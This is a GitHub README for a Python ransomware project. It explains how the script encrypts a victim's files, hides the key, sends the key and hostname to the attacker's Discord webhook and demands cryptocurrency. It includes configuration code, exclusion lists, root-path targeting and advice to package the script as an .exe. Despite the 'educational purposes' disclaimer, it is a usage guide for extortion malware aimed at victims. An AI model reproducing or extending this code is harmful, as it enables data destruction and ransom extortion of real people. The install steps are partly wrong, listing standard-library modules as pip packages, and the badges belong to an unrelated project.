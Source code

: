 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```
  
In case you don't want to encrypt some files, you can specify it as I did in this line of code below.
- Attention, you must write the file name similar to the file you do not want to encrypt

So if you want to add `DoNotEncryptMe.txt` just add a line of code after the `install.bat` like this:

Do this for the 2 functions, its very important cause if you don't do that it will encrypt your files, or decrypt it.
But in the case you want to encrypt all victim's files, don't touch anything.

```python
   ... or file == 'DoNotEncryptMe.txt':
```
```python
    # In the encrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'install.bat' or file == 'ADD YOUR FILE NAME HERE':
```
```python
    # In the decrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'install.bat' or file == 'ADD YOUR FILE NAME HERE':
```
    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must be run on your victim computer.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

Regarding encryption, all the encryption you will do will be automatically in bytes which means that you must decode -> strings to be able to use your variables or whatever you want.

In this script everything has already been done but if you want for example to send the key via email/smtp or other you will have to decode it.
- Here is a code sample :
```python
    from cryptography.fernet import Fernet

    key_encryption = Fernet.generate_key()

    _Key = Fernet(key_encryption)

    TextToEncrypt = _Key.encrypt(b'Hello World !') # Need to be in bytes

    # Output of TextToEncrypt : b'gAAAAABijpAFxDE5pe5EJHIPgdtfRNvSvk81wEXyueyyKhDYWt-0w13c2eJVFNBUmxB0WVTvnVccYxP0MrlM9asNC-oLLZ1mZQ=='

    # Then decrypt

    DecryptText = _Key.decrypt(TextToEncrypt) # Output : b'Hello World !'

    # As you see it will be in Bytes so to decode it to turn this variable into strings : 

    print(DecryptText.decode()) 

    # Output -> Hello World !
```

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer this file will be used to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom. So its a way to check if the encryption already been executed or not.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file done, it will create a `rkey.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so impossible to find it for the victim. Since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)

## Screenshot of Terminal
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


